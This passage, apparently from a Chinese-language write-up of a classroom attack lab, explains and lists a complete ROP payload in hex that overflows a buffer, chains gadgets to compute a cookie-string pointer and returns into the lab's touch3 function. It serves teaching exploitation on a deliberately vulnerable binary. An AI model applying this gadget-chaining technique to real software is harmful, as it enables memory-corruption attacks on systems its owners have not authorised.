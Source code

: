 执行完上述操作之后，返回到touch3函数即可，此时cookie串的指针会作为其第一个参数。

综上，构造payload如下：

```
20 20 20 20 20 20 20 20
20 20 20 20 20 20 20 20
20 20 20 20 20 20 20 20
20 20 20 20 20 20 20 20
20 20 20 20 20 20 20 20 /* 填充缓冲区 */
06 1a 40 00 00 00 00 00 /* 401a06: movq %rsp %rax 取出当前的栈指针 */
/* 取出栈指针时，栈指针指向此处 */
c5 19 40 00 00 00 00 00 /* 4019c5: movq %rax %rdi 将这个指针传送到param1 */
ab 19 40 00 00 00 00 00 /* 4019ab: popq %rax 从栈上弹出实现确定好的偏移量(0x48) */
48 00 00 00 00 00 00 00 /* 偏移量，值为取出栈指针时栈指针地址和cookie字符串地址的差值 */
dd 19 40 00 00 00 00 00 /* 4019dd: movl %eax %edx */
34 1a 40 00 00 00 00 00 /* 401a34: movl %edx %ecx */
13 1a 40 00 00 00 00 00 /* 401a13: movl %ecx %esi 将偏移量传送到param2 */
d6 19 40 00 00 00 00 00 /* 返回到函数add_xy(0x4019d6)，实现加法，将结果存放进返回值寄存器%eax */
c5 19 40 00 00 00 00 00 /* 4019c5: movq %rax %rdi 将cookie串指针传送到param1 */
fa 18 40 00 00 00 00 00 /* 返回到touch3(0x4018fa)，cookie串指针为第一个参数 */
35 39 62 39 39 37 66 61 00  /* cookie字符串，\0结尾 */
```

